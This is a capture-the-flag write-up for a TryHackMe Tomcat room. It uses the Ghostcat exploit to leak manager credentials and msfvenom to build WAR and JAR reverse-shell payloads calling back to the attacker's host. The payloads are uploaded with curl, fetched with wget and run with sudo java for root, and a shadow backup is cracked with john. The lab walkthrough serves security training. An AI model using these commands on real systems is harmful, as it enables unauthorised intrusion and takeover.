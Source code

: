 ```yaml
---
title: Vulnet dotjar
layout: post
author: Bit Criminals Team
date: 2021-05-12 17:02:00 +0530
type: Pentesting
difficulty: Medium
prompt: https://tryhackme.com/room/vulnnetdotjar
---
```


Let's start our daily routine nmap scan:

![](/images/dotjar1.png)

So, we get a 8009 port and a 8080 port on which Apache Tomcat is running.Well,the 8009 was new to me at least.

I then ran gobuster for port 8080 and here's what I got

![](/images/dotjar4.png)

I tried to login to the /manager/ directory but it asked for username and password.I was able to login to /host-manager/ but it was of no help.

After searching a bit,I finally found a help 
from my bestie-Google.I found a article about a exploit named **Ghostcat** CVE-2020-1938.

```
https://book.hacktricks.xyz/pentesting/8009-pentesting-apache-jserv-protocol-ajp
```

Then,I searched for this exploit with searchsploit and look I found a python script:multiple/webapps/48143.py 

![](/images/dotjar2.png)

Finally I ran the python script.

```python
python 48143.py <boxip>
```

![](/images/dotjar3.png)

and here we go.We get a username and a password ***webdev:Hgj3LA$02D$Fa@21***.That's what we wanted.

I tried to login to the /manager/ directory but it asked for username and password.I was able to login to /host-manager/ but it was of no help. 

Then,again I started to look for some exploits to hack the Tomcat apache server running in port 8080
and google again prove it's supremacy.

https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/

Reading this article I understood that we had to create a reverse shell and then upload it to port 8080.
I also understood that the exploit must be a war file.Here's what I came up with msfvenom. 

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=1234 -f war > shell.war
```

Then, I uploaded it with curl command as follows

```shell
curl -u 'webdev:Hgj3LA$02D$Fa@21' --upload-file shell.war  "http://ip:8080/manager/text/deploy?path=/monshell"
```

Listening to the given port,1234 as given in the exploit in this case,I opened the /monshell/ directory in which I had uploaded the shell.

And,yes we get a shell and I was logged in as 'web'

![](/images/dotjar5.png)

After searching a bit we found a backup file of shadow in the /var/backups folder so we copied it to /tmp and gunzipped it to retrieve the shadow file.

![](/images/D4rkDemian/jar.png)

Then we cracked the password hash for jdk-admin using john and logged in as jdk-admin

![](/images/D4rkDemian/jar2.png)

Now we can view the user flag..

![](/images/D4rkDemian/jar3.png)

After doing **sudo -l** we found that we have root permissions to run any java file.

![](/images/D4rkDemian/jar4.png)

So we created an exploit using msfvenom 

```shell
msfvenom -p java/shell_reverse_tcp lhost=<local ip> lport=1234 -f jar -o pwn.jar

```
Then i opened a http-server and transferred the payload to the shell using wget 

![](/images/D4rkDemian/jar5.png)

```shell
python3 -m http.server 80
wget <local ip>/pwn.jar --output-document=pwn.jar
```
And opened a listening port 1234 in my terminal and ran the .jar file in the shell.Thus we got the root access 

```shell
sudo /usr/bin/java -jar pwn.jar
```
Now we can view the root flag as well!!

![](/images/D4rkDemian/jar6.png)




